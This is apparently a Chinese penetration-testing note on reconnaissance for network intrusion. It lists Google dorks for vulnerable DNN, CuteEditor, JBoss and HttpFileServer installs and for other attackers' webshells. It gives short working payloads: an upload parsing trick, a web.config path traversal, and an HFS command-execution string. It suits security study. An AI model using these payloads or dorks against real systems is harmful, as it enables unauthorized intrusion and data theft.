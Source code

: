 # 渗透测试-信息收集
## 0x01 Introduction
>对于互联网上的网络目标信息收集，我往往希望找到一个和目标系统在同LAN的，并容易控守的服务器，甚至就是同一台服务器的应用漏洞，所以相关度、可控守难度两个属性就至关重要了。

现阶段的信息获取方式是，首先要锁定我们的最终目标，如果目标无法攻破，通过迂回包抄的方法。一是要关注同服务器其他应用，二是依照外网IP段和子域名相近性类推相关度，一层层向外拓展，直到找到可控守的目标进行内网拓展。

## 0x02 思路

1. 快速模式，快速找到漏洞点利用突破外网，进行内网渗透。
2. 普通模式，寻寻渐进进行普遍性收集，漏洞测试，寻找最优路径突破外网，进行内网渗透。

### 快速模式

无论运用什么方式进行网络目标信息收集，我们首先就是要确定目标的网络的身份信息，也就是其域名、IP地址。   
通常情况下子域名应用与终极目标相关性高，同C段IP的应用有较高的相关性，需要进行判断。   

为了快速找到可攻破的目标，我们需要借助搜索引擎。   
信息获取的方法遵循快速有效，所以一般先通过，Google，zoomeye等搜索引擎利用技巧，快速查找相关应用（子域名和C段IP）是否存在易控守的漏洞。   （sturts2、Jboss、fckeditor等），进行突破。   
#### 1.GoogleHack   
- 思路一：查找易获取控制权限的漏洞查找，struts（s2-016...）、editor
- 思路二：找Hacked的网站，或者webshell
- 思路三：配置错误，可列目录或报错信息，这样获取更权限信息。
- 思路四：Admin后台。



#### 案例：   
##### DNN CMS   
搜索规则：`inurl:Portals/0/`

EXP: 
```
http://[PATH]/Providers/HtmlEditorProviders/Fck/fcklinkgallery.aspx
通过js调用上传功能： javascript:__doPostBack('ctlURL$cmdUpload','')
上传文件(存在asp解析漏洞)：Dz4aLL.asp;me.jpg
UploadRoot:Portals/0/
```

##### FCKEditor
>搜索规则：fckeitor

##### CuteEditor
>搜索规则： `inurl:CuteSoft_Client/`
EXP:   
```
CuteSoft_Client/CuteEditor/Load.ashx?type=image&file=../../../web.config
```

##### HttpFileServer
>搜索规则：  
intext:Servertime: HttpFileServer 2.3
intext:服务器时间: HttpFileServer 2.3

EXP:   
```
http://localhost:8080/?search==%00{.exec|cmd.exe /c  echo 123 > C:\1.txt.}
ttp://localhost:8080/?search==%00{.load|c:\1.txt.}
```

##### JBoss
>搜索规则：
inurl:status EJBInvokerServlet   
intitle:"tomcat status"   
inurl:jmx-console   
/invoker/JMXInvokerServlet   
status?full=true   
intitle:"tomcat status"  intext:"jbossupdate"   (webinfo console jsp_info.jsp log_info.jsp)   
/invoker/JMXInvokerServlet   
jmx-console   
web-console   


##### 列目录
>搜索规则：   
intext:转到父目录   
intitle:index of /   

##### 搜索别人的shell
>搜索规则：   
intitle:Phantom Hackers.PH intext:password filetype:php

#### 2.Zoomeye
类似的互联网资产搜索引擎还有：fofa.so,shodan.io等。    
要学会几个关键词的使用，icdr、country、app等

## 普通模式
锁定目标的网络位置（域名、IP地址），我就要开始逐渐拓展相关目标范围，并进行深度有效的信息收集。
### (1)拓展网络目标范围
以点拓面
1. 同服务器其它Web应用
2. 主页链接网站
3. 子域名（2、3...级）
4. C段主机（或已知目标的IP段）
5. 移动App分析获取服务器地址
### (2)获取基本信息
1. 位置信息（IP地址、域名）
2. 扫描开放端口、服务及版本
### (3)深度挖掘信息
1. 识别设备类型
2. 识别操作系统
3. 识别Web容器
4. 识别Web应用(CMS)、组件及其版本
### (4)漏洞测试
1. 已知漏洞测试
- Web
- Databse（Mysql、SQLserver）
- 远程管理（SSH、RDP）
2. 常见漏洞测试（主要是Web方向）
- 弱口令（常见的默认密码）
- SQLinject
- 文件包含
- 文件上传过滤不严格
- 模板注入
- 模板管理
